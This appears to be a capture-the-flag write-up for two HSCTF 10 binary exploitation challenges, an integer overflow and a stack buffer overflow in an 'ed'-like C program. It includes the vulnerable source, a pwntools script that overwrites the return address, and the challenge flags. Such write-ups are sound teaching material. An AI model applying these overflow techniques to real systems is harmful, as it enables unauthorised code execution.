 # Binary exploitation challenges in HSCTF 10
- [doubler](#doubler)

-----

## doubler

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/d24ea01e-8c7e-4e48-b26f-5adf045173e7)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/42f6b3af-049c-46d5-8590-281d5ccc6220)

Looks like need to do integer overflow to perfectly get -100 from a doubled number. The max positive integer is `2147483647`. So from there just work backwards to get -100.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/a8896f38-1798-452f-bc62-abc83e79398d)

Flag: `flag{double_or_nothing_406c561}`

-----

## ed

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/ddc83676-ce30-43c2-877c-7f6d16762f59)

```c
int flag() {
        puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
        char input[24];
        char filename[24] = "\0";
        char buffer[64];
        FILE* f = NULL;
        setvbuf(stdout, 0, 2, 0);
        setvbuf(stdin, 0, 2, 0);
        if (argc > 1) {
                strncpy(filename, argv[1], 23);
        }
        while (1) {
                fgets(input, 64, stdin);
                input[strcspn(input, "\n")] = 0;
                if (input[0] == 'Q') {
                        return 0;
                } else if (input[0] == 'f') {
                        if (strlen(input) >= 3) {
                                strcpy(filename, input + 2);
                        }

                        if (filename[0] == '\0') {
                                puts("?");
                        } else {
                                puts(filename);
                        }
                } else if (input[0] == 'l') {
                        if (filename[0] == '\0') {
                                puts("?");
                        } else {
                                if (strchr(filename, '/') != NULL) {
                                        puts("?");
                                        continue;
                                }

                                f = fopen(filename, "r");
                                if (f == NULL) {
                                        puts("?");
                                        continue;
                                }

                                while (fgets(buffer, 64, f)) {
                                        printf("%s", buffer);
                                }
                                fclose(f);
                        }
                } else {
                        puts("?");
                }
        }
}
```

There is a bufferoverflow where we can return to the flag function:

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f892b2d5-af5d-4925-b46a-18a3e83cc4af)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/53d932ad-d928-498a-8c8b-eae77c1ca7c7)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/482bdabb-202b-41d6-a261-8dadbb599dc1)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/4ce30208-2431-4a3f-a8ff-1222585a3e5e)

It crashed, the offset is 40. Quick script on the server gives flag.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/a6730333-7407-4abb-b27b-6dbf77e500bd)

```python
from pwn import *

r = remote("ed.hsctf.com", 1337)

flag = p64(0x00000000004011d2)

r.sendline(b"A"*40 + flag)
r.recv()
r.sendline(b"Q")
print(r.recv())
```

Flag: `flag{real_programmers_use_butterflies}`

-----
